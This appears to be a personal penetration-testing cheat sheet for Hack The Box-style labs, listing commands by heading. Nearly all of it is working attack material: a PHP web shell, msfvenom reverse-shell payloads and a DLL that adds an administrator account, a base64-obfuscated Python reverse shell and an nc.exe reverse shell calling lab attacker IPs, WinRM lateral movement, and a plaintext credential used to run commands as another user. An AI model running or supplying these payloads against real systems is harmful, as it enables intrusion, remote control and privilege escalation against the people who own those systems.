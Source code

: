   ```
  winrm quickconfig
  winrm set winrm/config/client @{TrustedHosts="10.10.11.202"}
  Set-Item wsman:localhost\client\trustedhosts -Value 192.168.56.105 -Concatenate
  Enter-PSSession -ComputerName 10.10.11.202 -Credential sequel\sql_svc
  $session = New-PSSession -ComputerName 10.10.11.202 -Credential sequel.htb\Ryan.Cooper
  Copy-Item -Recurse "C:\Users\Administrator\Htb\www\winpeasx64.exe" -Destination "C:\Users\Ryan.Cooper\Documents\" -ToSession $Session
  ```  
## phpshell
  ```
  <?php echo "Shell":system($_REQUEST['cmd']); ?>
  ```
## .net
  ```
  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:exe /out:Simple_Rev_Shell.exe Simple_Rev_Shell.cs
  ```
## msfvenom
``` 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=9001 -f exe > reverse7.exe
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=9001 -f war > reverse5.war
msfvenom -a x86 --platform Windows -p windows/exec CMD="net user /add lopsy a1234567.;net localgroup administrators lopsy /add" -f dll > cmd.dll
```
## powersploit
  ```
  Set-DomainUserPassword -Identity audit2020 -Domain blackfield.local
  ```
## windows smb server and listening
  ```
  sc config lanmanserver start=demand
  sc stop/start lanmanserver
  ```
## reverseshell eval
  ```
  exec( __import__( "base64" ).b64decode( "aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjYiLDkwMDEpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOw=="))
  ```
## nc.exe
```
\\10.10.14.11\share\nc.exe -e powershell 10.10.14.11 9001
```
## execute command as
  ```
  $password = convertto-securestring -AsPlainText -Force -String "nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz"; 
  $cred = New-Object System.Management.Automation.PSCredential "user",$password; 
  New-PSSession -Credential $cred | Enter-PSSession
  Invoke-Command -Computer support -Credential $cred -ScriptBlock {whoami}
  Invoke-Command -Command {whoami} -Credential $cred -Computer localhost
  Start-Process -FilePath powershell.exe -Credential $cred
  ```
## wpscan
  ```
  ```